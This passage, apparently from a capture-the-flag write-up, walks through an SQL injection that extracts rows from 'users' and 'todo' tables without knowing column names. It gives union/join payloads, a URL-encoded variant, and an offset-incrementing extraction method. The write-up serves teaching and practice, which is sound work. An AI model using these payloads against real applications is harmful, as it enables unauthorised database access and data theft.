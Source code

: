```sql
union select * from (select 1)a join (select 2)b join (select f.3 from (select * from (select 1)z join (select 2)y join (select 3)x join (select 4)w join (select 5)v join (select 6)u join (select 7)t union select * from users limit 1 offset 2)f)c
```

And eventually, given what I discovered...this actually worked. It gave me information from the `users` table without once referencing a column name. It is ugly as sin, but nobody ever said hacking was pretty:

`select id,name,1 from users where id=-1 union select * from (select 1)a join (select 2)b join (select f.3 from (select * from (select 1)z join (select 2)y join (select 3)x join (select 4)w join (select 5)v join (select 6)u join(select 7)t union select * from users limit 1 offset 2)f)c;`

This is nice if I wanted to get info from the `users` table, but I suspected there was a `todo` table based on the following description of the challenge:

![Todo](/img/obj12-4/img12.png)

So let's make a new table called `todo` with some arbitrary column names, like an `id` column and another column named `flag`.
 
```sql
 CREATE TABLE 'todo' (
  'id' int(50) NOT NULL AUTO_INCREMENT,
  'flag' varchar(255) DEFAULT NULL,
   PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=10 DEFAULT CHARSET=latin1;
```

And with a fair amount of fiddling and general messing around...

## THIS. ACTUALLY. WORKED.
`union select * from (select 1)a join (select 2)b join (select f.2 from (select * from (select 1)z join (select 2)y join (select 3)x union select * from todo limit 1 offset 1)f)c join (select 4)d join (select 5)e join (select 6)f join (select 7)g`

Or rather:
`%20union%20select%20*%20from%20(select%201)a%20join%20(select%202)b%20join%20(select%20f.2%20from%20(select%20*%20from%20(select%201)z%20join%20(select%202)y%20join%20(select%203)x%20union%20select%20*%20from%20todo%20limit%201%20offset%201)f)c%20join%20(select%204)d%20join%20(select%205)e%20join%20(select%206)f%20join%20(select%207)g%20--%20-`

![This worked](/img/obj12-4/img9.png)


I got it! Jack's TODO list!

According to Jack's TODO in the database, I was able to extract the following items by changing the line `limit 1 offset 1` to `limit 1 offset 2` and incrementing the offset for each item in the todo table. Just rinse and repeat until I have them all!

![Total Extraction](/img/obj12-4/img10.png)

## Some good links I used:
